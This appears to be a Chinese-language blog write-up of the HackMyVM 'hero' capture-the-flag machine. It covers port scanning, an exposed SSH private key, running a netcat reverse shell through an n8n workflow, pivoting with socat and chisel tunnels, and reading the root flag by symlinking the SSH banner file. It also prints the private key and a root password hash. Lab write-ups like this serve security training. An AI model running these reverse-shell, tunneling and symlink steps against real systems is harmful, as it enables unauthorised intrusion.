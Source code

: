 ```yaml
---
{"dg-publish":true,"title":"hackmyvm_hero","tags":["blog"],"dg-path":"安全/靶机/hackmyvm_hero.md","permalink":"/安全/靶机/hackmyvm_hero/","dgPassFrontmatter":true}
---
```


# 主机发现

```sh
┌──(root㉿kali)-[~/.ssh]
└─# nmap -sT -min-rate 5000 -p- 192.168.124.29
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-07 09:13 EST
Nmap scan report for 192.168.124.29 (192.168.124.29)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
5678/tcp open  rrac
MAC Address: 08:00:27:1B:51:C7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 23.73 seconds

```



# web渗透

80端口目录扫描啥也没扫出来

```sh
┌──(root㉿kali)-[~]
└─# curl 192.168.124.29
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACComGN9cfmTL7x35hlgu2RO+QW3WwCmBLSF++ZOgi9uwgAAAJAczctSHM3L
UgAAAAtzc2gtZWQyNTUxOQAAACComGN9cfmTL7x35hlgu2RO+QW3WwCmBLSF++ZOgi9uwg
AAAEAnYotUqBFoopjEVz9Sa9viQ8AhNVTx0K19TC7YQyfwAqiYY31x+ZMvvHfmGWC7ZE75
BbdbAKYEtIX75k6CL27CAAAACnNoYXdhQGhlcm8BAgM=
-----END OPENSSH PRIVATE KEY-----

```

首页信息像是一个私钥，但是主机也没开ssh

```sh
┌──(root㉿kali)-[~/workspace/pentest/hero]
└─# ssh-keygen -y -f id2
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKiYY31x+ZMvvHfmGWC7ZE75BbdbAKYEtIX75k6CL27C shawa@hero
```



看一下这个5678端口
运行的是一个N8N 的服务
https://github.com/n8n-io/n8n

---
在 Overview 里面找到 Credentials ，新增 shawa 账号和刚才的 key 。  
IP 注意不能是 localhost 或者 127.0.0.1 ，因为是 Docker 里。
提示你 Connection tested successfully 就行了。
在 Workflow 里面创建一个 Workflow ，弄个手动的 Trigger。 第二个节点选 SSH 
就可以 Test 命令了。

---

这里是大佬给的思路

我在配置凭证的时候一直不成功，然后重装了一遍靶机就好了
![Pasted image 20250208221653.png](/img/user/picture/Pasted%20image%2020250208221653.png)


![Pasted image 20250208092934.png](/img/user/picture/Pasted%20image%2020250208092934.png)
这里就可以尝试进行反弹shell

![Pasted image 20250208093103.png](/img/user/picture/Pasted%20image%2020250208093103.png)
```
 nc 192.168.124.27 8080 -e /bin/sh
```

![Pasted image 20250208093248.png](/img/user/picture/Pasted%20image%2020250208093248.png)

这里尝试取获得一个稳定的shell一直失败


```sh
netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5678            0.0.0.0:*               LISTEN      -
tcp        0      0 172.17.0.1:22           0.0.0.0:*               LISTEN      -
tcp        0      0 :::80                   :::*                    LISTEN      -
tcp        0      0 :::5678                 :::*                    LISTEN      -
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
...
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
...
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP
    link/ether 02:42:f5:e3:e5:c6 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:f5ff:fee3:e5c6/64 scope link
       valid_lft forever preferred_lft forever

```

注意到第三行是172.17.0.1:22，监听在特定IPv4地址的22端口。22是SSH端口，但这里的本地地址是172.17.0.1，这通常是Docker或其他容器网络的网关地址。可能主机上的SSH服务只绑定在这个内部地址，而不是0.0.0.0，这样外部网络可能无法通过SSH连接

所以我们尝试将这个转发出去
这里分享一下工具链接
https://github.com/ernw/static-toolbox/releases/tag/socat-v1.7.4.4

```sh
./socat TCP-LISTEN:2222,fork TCP4:172.17.0.1:22 &

netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5678            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      2949/socat
tcp        0      0 172.17.0.1:22           0.0.0.0:*               LISTEN      -
tcp        0      0 :::80                   :::*                    LISTEN      -
tcp        0      0 :::5678                 :::*                    LISTEN      -

```

用私钥连接就可以了

```sh
ssh -i id2 -p 2222 shawa@192.168.124.30

...

hero:~$ ls
user.txt
hero:~$ cat user.txt
HMVOHIMNOTREAL
```




# 提权

sudo和suid都没什么东西

发现在ssh配置文件中设置了banner
```txt
# no default banner path
Banner /opt/banner.txt
```

```sh
hero:~$ cat /opt/banner.txt
shawa was here.
hero:~$ ls -l /opt/banner.txt
-rw-rw-rw-    1 root     root            16 Feb  6 10:09 /opt/banner.txt
```

```sh
hero:~$ ls -l /
total 65
...
drw-rw-rwx    3 root     root          4096 Feb  6 10:14 opt
...
```
发现opt目录我们是有操作权限的
所以我们就可以实现任意文件读取


```sh
hero:/opt$ rm banner.txt
hero:/opt$ ls
containerd
hero:/opt$ ln -sv /root/root.txt banner.txt
'banner.txt' -> '/root/root.txt'
hero:/opt$ ls -al
total 12
drw-rw-rwx    3 root     root          4096 Feb  8 02:38 .
drwxr-xr-x   21 root     root          4096 Feb  6 10:03 ..
lrwxrwxrwx    1 shawa    shawa           14 Feb  8 02:38 banner.txt -> /root/root.txt
drwx--x--x    4 root     root          4096 Feb  6 10:14 containerd
hero:/opt$ ssh root@localhost -p 2222
The authenticity of host '[localhost]:2222 ([127.0.0.1]:2222)' can't be established.
ED25519 key fingerprint is SHA256:EBZrmf2l6+BtffXHAEtSx6Suq5Wf09yzZlVqbQaGOVM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:2222' (ED25519) to the list of known hosts.
HMVNOTINPRODLOL
root@localhost's password:

```
得到flag
```txt
HMVNOTINPRODLOL
```


# 补

如果一开始是使用的Execute Command这个模块进行的反弹shell
那么是不需要配置凭证的，但是获得的shell是在dockers中
```sh
┌──(root㉿kali)-[~]
└─# nc -lvnp 8080
listening on [any] 8080 ...
connect to [192.168.124.27] from (UNKNOWN) [192.168.124.30] 33421
id
uid=1000(node) gid=1000(node) groups=1000(node)
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

首先把chishel工具上传上去
https://github.com/jpillora/chisel/releases

首先在本机执行：
```sh
┌──(root㉿kali)-[~/sharedir]
└─# ./chisel server -p 2025 --reverse
2025/02/08 05:08:01 server: Reverse tunnelling enabled
2025/02/08 05:08:01 server: Fingerprint g2Y54AZXMGOk5s+SFgpOtrSCfUOQ383VgB0MXoeNlRk=
2025/02/08 05:08:01 server: Listening on http://0.0.0.0:2025

```



在靶机中执行：
```sh
./chisel client 192.168.124.27:2025 R:2222:172.17.0.1:22 &
```

出现这个提示
![Pasted image 20250208181230.png](/img/user/picture/Pasted%20image%2020250208181230.png)

```sh
┌──(root㉿kali)-[~/workspace/pentest/hero]
└─# ssh -i id2 -p 2222 shawa@192.168.124.27
The authenticity of host '[192.168.124.27]:2222 ([192.168.124.27]:2222)' can't be established.
ED25519 key fingerprint is SHA256:EBZrmf2l6+BtffXHAEtSx6Suq5Wf09yzZlVqbQaGOVM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.124.27]:2222' (ED25519) to the list of known hosts.
//这里会显示banner内容
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

hero:~$id
uid=1000(shawa) gid=1000(shawa) groups=1000(shawa)

```


```txt
root:$6$WBuW3zyLro0fagui$gq9zWbt3gEpo26gkIjtgjYZqjCJtjJrJO9EHaWkglVZWwWhQiiSNmMGejRn.Q58Z9knsWP59OQqLPgt2NAWd80:20125:0:::::


root:x:0:0:root:/root:/bin/sh
```












